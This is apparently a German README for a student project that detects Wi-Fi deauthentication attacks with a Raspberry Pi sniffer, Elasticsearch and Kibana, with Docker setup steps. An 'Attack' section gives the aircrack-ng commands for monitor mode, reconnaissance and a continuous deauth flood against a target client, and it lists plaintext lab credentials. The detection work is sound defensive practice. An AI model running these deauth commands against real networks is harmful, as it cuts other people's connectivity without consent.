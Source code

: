 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
## Monitor Mode starten
`airmon-ng start wlan0`

## MAC-Adressen von AP und Target herausfinden
`airodump-ng wlan0`

## Senden von Deauth-Packets
`aireplay-ng -0 0 -a <AP-MAC> -c <Target(Client)-MAC> wlan0`

# Log-File
New-line getrennte JSON-Objekte mit der Form:
`{'timestamp': 1682011162.6059976, 'reciever': 'aa:bb:cc:11:22:33', 'source': 'aa:bb:cc:11:22:34', 'bssid': 'aa:bb:cc:11:22:35', 'attack_uuid': UUID('75d183a8-7861-4c6e-9e03-37ddbb3156ca')}`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
Interface als Environment übergeben.

`docker run --privileged -it --network host --env IFACE=wlan0 pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Build

`docker compose build`

## Run

`docker compose up`

## Open shell

`docker exec -it pinkfluff /bin/bash`

## Startprozedere
- Raspi hochfahren
- im Terminal: `sudo sysctl -w vm.max_map_count=262144`
- `sudo docker-compose up` im Verzeichnis advProg/advProg ausführen
- Terminal im Container öffnen mit `docker exec -it pinkfluff /bin/bash`
- (eventuell `filebeat setup -e` nochmal im Container-Terminal ausführen)
- Im Container-Terminal `sudo service filebeat start` ausführen
- Im Raspi-Browser: `localhost:5601` aufrufen, einloggen mit `elastic:password`

